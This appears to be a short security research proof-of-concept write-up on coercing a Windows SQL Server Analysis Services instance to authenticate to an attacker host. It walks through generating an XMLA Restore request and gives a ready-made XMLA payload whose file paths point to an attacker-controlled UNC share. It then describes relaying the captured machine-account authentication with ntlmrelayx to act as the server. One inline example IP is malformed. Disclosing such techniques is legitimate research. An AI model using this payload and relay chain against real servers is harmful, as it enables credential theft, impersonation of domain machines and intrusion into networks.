



# MSSQL Analysis Services - Coerced Authentication


A technique to coerce a Windows SQL Server to authenticate on an arbitrary machine.

This proof of concept is co-authored by <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"></a> and <a href="https://twitter.com/intent/follow?screen_name=_Worty" title="Follow"></a>.


## Proof of concept

In order to trigger the authentification as the local machine account, we need to connect to the remote SQL Server using user credentials:



Then we will select "Restore" to restore the database from a given file.


To generate the XMLA file, put the path to a random file in the "Backup File" form, and click Ok.



Then change the path to a random file and replace it with a UNC path to your attacker server (for example `\\192.168.128\SYSVOL\db.abf`)



Proof of concept XMLA query ([poc.xmla](./poc.xmla)):

```xml
<Restore xmlns="http://schemas.microsoft.com/analysisservices/2003/engine">
    <File>\\192.168.2.51\SYSVOL\db.abf</File>
    <DatabaseName>\\192.168.2.51\SYSVOL\db.abf</DatabaseName>
    <DbStorageLocation xmlns="http://schemas.microsoft.com/analysisservices/2008/engine/100/100">\\192.168.2.51\SYSVOL\db.abf</DbStorageLocation>
</Restore>
```

And we get an authentication from the local machine account of the SQL Server:


## Relaying for the win

Once we got the authentification, we can relay it with `ntlmrelayx` to perform many actions on behalf of the computer `SQL01$`.

This is cool, but it is complicated to trigger this coerced authentication from a Linux attacking machine as we do not have access to the SQL Server Management Studio (SSMS). 

## References
 - https://docs.microsoft.com/en-us/sql/database-engine/install-windows/install-sql-server?view=sql-server-ver15
 - https://social.technet.microsoft.com/wiki/contents/articles/13106.sql-server-frequently-used-ports.aspx
 - https://docs.microsoft.com/en-us/answers/questions/274512/connecting-to-azure-analysis-services-using-python.html
